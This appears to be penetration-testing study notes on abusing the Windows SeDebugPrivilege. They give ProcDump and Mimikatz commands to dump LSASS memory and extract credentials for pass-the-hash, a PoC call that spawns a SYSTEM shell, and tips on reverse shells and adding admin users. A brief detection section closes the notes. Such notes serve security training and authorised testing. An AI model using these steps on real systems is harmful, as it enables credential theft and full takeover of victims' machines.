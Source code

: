 
### **Overview**

- _SeDebugPrivilege_ allows a user to debug any process, including those owned by SYSTEM.
- Only administrators have this by default.
- Can be assigned via:
    - **Local/Domain Group Policy**: `Computer Config > Windows Settings > Security Settings`

- Often used by developers; should be assigned sparingly due to its power.

---

### **Use Cases**

- Capturing **LSASS memory** to extract credentials.
- Gaining **remote code execution as SYSTEM**.
- Useful when:
    - User is not admin but has SeDebugPrivilege.
    - RDP or reverse shell is available.

---

### **Credential Dumping with LSASS**

**Check Privileges**:
```bash
whoami /priv
```

Look for:
- `SeDebugPrivilege` — State: Disabled (can still be enabled by elevation)

**Dump LSASS Memory with ProcDump**:
```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

**Parse with Mimikatz**:

```bash
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

- Extract NTLM hashes, usernames, passwords (if stored)
- Use for _pass-the-hash_ lateral movement

**Alternative** (No tool upload):

- RDP into host → Task Manager → `Create dump file` on `lsass.exe`
- Transfer to attack box → Parse with Mimikatz

---

### **Remote Code Execution as SYSTEM**

**PoC**: Use `CreateProcessFromParent()` to inherit SYSTEM token

- GitHub PoC: [decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem)

**Steps**:

1. Transfer PoC to host
2. Run in **elevated PowerShell**
3. Get PID of SYSTEM process (e.g., `winlogon.exe`, `lsass.exe`)
4. Execute:
```powershell
[MyProcess]::CreateProcessFromParent(612,"cmd","")
```
**Result**:
- New process runs as `NT AUTHORITY\SYSTEM`


---

### **Tips & Considerations**

- Combine with reverse shell or `net user` command if no GUI access
- SeDebugPrivilege ≠ admin group membership, but offers similar power
- Good alternative if _LSASS dump yields no creds_
- Many PoCs exist; experiment with:
    - Adding local admin user
    - Reverse shells
    - Task scheduling

- Hash-only SYSTEM access (e.g., NTLM) also usable (not covered here)

---

### **Detection**

- Logon Event ID **4672**: “Special privileges assigned to new logon”
- Indicates sensitive privileges granted to an account

